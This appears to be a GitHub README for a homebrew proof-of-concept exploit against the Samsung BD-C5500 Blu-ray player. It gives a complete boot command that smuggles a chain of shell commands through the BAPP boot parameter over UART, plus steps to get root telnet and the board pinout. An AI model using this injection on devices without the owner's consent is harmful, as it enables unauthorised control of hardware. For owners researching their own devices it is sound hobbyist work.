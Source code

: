 # TX-PWN

The Samsung Blu-Ray player BD-C5500 contains a vulnerability in its bootloader (present in the latest available firmware) that allows arbitrary code execution through the UART interface by issuing a carefully crafted boot command.
This method REQUIRES an ext3 USB, an ethernet cable and UART access

# How it works

The BD-C5500's Linux system executes a script called rcS located in /etc/init.d/ during boot. 
This script interprets several boot parameters that can influence the system's behavior.
Here is an excerpt from the original rcS script:
<pre>
#########################################################################


####vvvv####vvvv#################################################
# BRCM VARIABLES THAT CAN BE SET ON BOOT PARAM LINE
####vvvv####vvvv#########################################vvvv####
#
# BDVD_BOOT_AUTOSTART 
#    This is more of a "mode" than a variable setting. When 
#    set to 'y', it directs this script to go into "production"
#    mode settings.  See the actual code below for what the
#    actual settings are.  Note that this "mode" will not 
#    set any variable that already has a non-null value.
#
# BQ
#    BQ is an acronym for 'Broadcom Quiet'.  When set to 'y'
#    it squelches most of the console output from this script.
#    Note that if you want the Linux kernel to be quiet, you 
#    should specify  'quiet' on the boot line.  
#
# BNET 
#    If this is set to a 'y', the network will be brought up.
#
# BNET_DLY
#    Delays the network bringup by ${BNET_DLY} seconds. If
#    not set, there is no delay.
#
# BAPP  
#    Specifies a program to run at the end of this script.
#    If BAPP is null, no program is started.
#
# BAPP_OUT 
#    Specifies a file to store the Application output, both
#    stdout and stderr.  By default, ${BAPP} output will be 
#    redirected to /tmp/app.out.
#
# OFE_SB
#    If this is not set to 'n', the 7620 Sideband Protocol
#    application "app_ofe_sb" will be started in the
#    background.
#
# Size of /var tmpfs file system, in kbytes.
# BTMPFS_SIZE=384  - original
BTMPFS_SIZE=640
#
# Size allocated for syslogd log, in kbyptes.  Must be a good
# deal less than BTMPFS_SIZE.
BDEVLOG_SIZE=64
####^^^^####^^^^####
</pre>
The vulnerable parameter is BAPP, which is designed to execute a single program after boot. However, this can be abused using eval to execute a chain of commands instead.
By injecting a carefully constructed payload, you can mount a USB device and execute a script from it, effectively enabling arbitrary code execution post-boot.

# How to run it
1. Connect to the UART interface
2. Press Ctrl+C during boot to enter the CFE console.
3. Insert your EXT3-formatted USB drive with stage2.sh inside and connect an Ethernet cable.
4. Set your ethernet interface to a static ip with the following ip: 192.168.1.100 
5. Run the following command:
<pre>boot -elf -z flash0.kernel1: 'root=/dev/romblock17 console=0,115200n8 BDVD_BOOT_AUTOSTART=n BAPP_OUT=/dev/console BAPP="eval sleep 10; mount -o rw /dev/sda1 /var; cd /var; sh ./stage2.sh" memcfg=384 rw'</pre>
6. On your computer in another terminal, run <pre>telnet 192.168.1.108</pre> (The telnet username is root with no password.)

If mounting /dev/sda1 fails, try using /dev/sda instead.

Once you’ve run the exploit once, stage2.sh will be copied to /mtd_down/homebrew on the BD-C5500's filesystem.
For future reboots, you can launch it directly with a simpler and faster command:
<pre>boot -elf -z flash0.kernel1: 'root=/dev/romblock17 console=0,115200n8 BDVD_BOOT_AUTOSTART=n BAPP_OUT=/dev/console BAPP="eval  cd /mtd_down/homebrew; sh ./stage2.sh" memcfg=384 rw'</pre>

To gain telnet while running the main Blu-ray application, append this to the end of either command:
<pre>cd /usr/local/bin/; ./app_player</pre>
Be sure that you added a ; to the command before it

# UART Pinout

The UART interface is located at CN7 on the BD-C5500 board.

* Pin 1 – TX

* Pin 2 – RX

* Pin 14 – GND

Baud rate: 115200 8N1

# Notes
The USB must be EXT3 if you want write access on it. This is especially useful for backing up your NAND with the following command : <pre>for n in `seq 0 21`; do nanddump -f mtd$n.dump /dev/mtd$n; done </pre>

# Credits

Thanks to the following forum thread, without which this Proof-Of-Concept would not have been possible:  
[https://forum.samygo.tv/viewtopic.php?t=1156&sid=b52e08820181a968ddbdb7bedea5964f](https://forum.samygo.tv/viewtopic.php?t=1156&sid=b52e08820181a968ddbdb7bedea5964f)

